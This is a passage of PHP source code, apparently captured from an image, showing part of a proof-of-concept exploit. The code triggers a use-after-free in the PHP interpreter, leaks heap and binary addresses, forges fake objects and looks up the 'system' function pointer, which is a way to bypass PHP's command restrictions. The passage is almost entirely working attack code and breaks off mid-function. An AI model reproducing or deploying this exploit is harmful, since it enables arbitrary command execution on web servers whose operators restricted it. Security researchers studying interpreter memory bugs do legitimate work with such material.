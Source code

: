 ```php
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
 
            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
 
    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }
 
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
 
    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
 
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
 
    $helper = new Helper;
    $helper->b = function ($x) { };
 
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
 
    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
 
    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
 
    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
 
    $closure_obj = str2ptr($abc, 0x20);
 
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
 
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
```